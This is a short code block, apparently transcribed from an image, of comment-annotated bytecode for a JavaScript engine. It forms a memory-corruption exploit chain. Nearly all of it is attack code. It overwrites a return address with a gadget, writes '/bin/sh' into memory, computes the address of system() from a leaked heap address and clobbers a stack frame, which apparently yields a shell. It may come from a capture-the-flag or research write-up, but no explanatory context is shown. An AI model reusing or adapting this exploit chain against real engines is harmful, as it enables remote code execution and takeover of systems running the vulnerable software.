 ```

# The JS Stack is now: stack address (x2), heap address, float_add_raw, heap address

# Compute gadget address
push_i32 1705
call2

# Overwrite return address with gadget
put_loc 33

swap

# JS Stack is now: stack address, heap address, stack address

# Reset var_buf
get_loc 36
put_loc 16

# Write "/bin/sh" to memory
push_const8 flt_bin_sh_str
put_loc 47

# Write address to stack by computing it from our known stack address
fclosure8 float_add_raw
swap
push_i32 752
call2
put_loc 34

## Write system address (compute from known heap address)
fclosure8 float_add_raw
swap
push_i32 189814
call2
put_loc 35

# Offset var_buf by 8
get_loc 39
put_loc 17

# Overwrite sf. This will clobber var_buf, so no more put_loc/get_loc after this!
fclosure8 float_add_raw
swap
push_i32 2592
call2
put_loc 16

undefined
return
```
